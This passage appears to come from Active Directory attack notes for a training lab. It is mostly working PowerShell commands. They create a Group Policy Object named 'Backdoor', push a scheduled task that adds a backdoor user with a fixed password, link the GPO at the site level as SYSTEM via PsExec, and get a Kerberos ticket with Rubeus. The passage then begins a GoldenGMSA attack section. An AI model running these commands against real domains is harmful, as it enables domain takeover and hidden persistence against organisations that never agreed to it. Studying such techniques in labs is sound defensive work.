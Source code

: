 ```powershell
PS C:\Tools> $gpo = "Backdoor"
PS C:\Tools> New-GPO $gpo
```

Add a scheduled task into Backdoor. When GPO is replicated the scheduled task will replicate.

```powershell
# Add a user with GPO
PS C:\Tools> Import-Module .\PowerView_2.ps1
PS C:\Tools> New-GPOImmediateTask -Verbose -Force -TaskName 'Backdoor' -GPODisplayName "Backdoor" -Command C:\Windows\System32\cmd.exe -CommandArguments "/c net user backdoor B@ckdoor123 /add"
```

> Confirm by accessing the `Scheduled Tasks` settings under `Computer Configuration -> Preferences -> Control Panel Settings`. Set Scheduled Task Settings to `Run a new instance in parallel`.

#### Retrieve Replication Site to Root Domain Controller

```powershell
Get-ADDomainController -Server zencorp.ad |Select ServerObjectDN
```

#### Link GPO to Default Site as SYSTEM

```powershell
PS C:\Tools> .\PsExec.exe -s -i powershell.exe
PS C:\Windows\system32> whoami
nt authority\system

$sitePath = "CN=Default-First-Site-Name,CN=Sites,CN=Configuration,DC=INLANEFREIGHT,DC=AD"
New-GPLink -Name "Backdoor" -Target $sitePath -Server dev.zencorp.ad
```

#### Get TGT

```powershell
 .\Rubeus.exe asktgt /user:backdoor /password:'B@ckdoor123' /domain:zencorp.ad /ptt
```

### <mark style="color:yellow;">GoldenGMSA Attack</mark>

Service account with SPNs set can be kerberoasted. **Group Managed Service Accounts (gMSA)** solve this issue by letting **Windows manage the passwords automatically**, removing the need for manual password changes.

* **Active Directory (AD)** handles the password rotation **every 30 days**.
* The password is **256 bytes long**, making it extremely hard to crack.
* The password is generated using a **secret stored in the KDS root key object**.

{% hint style="info" %}
Only users or systems **authorized** to access the `msDS-ManagedPassword` attribute can retrieve it. Attackers need access to such an account to extract the gMSA password.
{% endhint %}

```powershell
# Zen student can retrieve password apache-dev
New-ADServiceAccount -Name "apache-dev" -DNSHostName "zencorp.ad" -PrincipalsAllowedToRetrieveManagedPassword zen-student-1 -Enabled $True
```

